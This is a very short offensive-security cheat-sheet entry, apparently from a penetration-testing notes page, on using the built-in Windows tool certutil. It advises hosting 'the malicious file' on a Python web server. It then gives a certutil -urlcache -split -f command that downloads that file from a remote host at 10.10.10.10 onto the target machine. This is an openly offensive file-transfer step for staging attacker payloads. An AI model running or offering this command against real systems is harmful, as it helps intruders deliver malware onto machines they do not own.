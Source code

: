 # certutil

## Built into Windows

* spin up a Python web server and host the malicious file

```bash
certutil -urlcache -split -f http://10.10.10.10/inputFile.txt outputFile.txt
```
